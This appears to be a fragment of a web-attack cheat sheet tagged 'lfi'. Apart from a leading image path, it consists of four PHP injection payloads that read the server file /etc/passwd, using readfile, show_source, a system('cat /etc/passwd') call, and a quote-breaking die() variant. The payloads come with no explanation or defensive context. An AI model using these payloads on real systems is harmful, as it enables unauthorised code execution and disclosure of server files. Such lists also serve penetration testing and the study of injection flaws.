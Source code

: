 #lfi 

```
|| readfile(‘/etc/passwd’) ||
```

```
|| show_source('/etc/passwd') ||
```

```
'.system("cat /etc/passwd").'
```

```
' and die(show_source('/etc/passwd')) or '
```
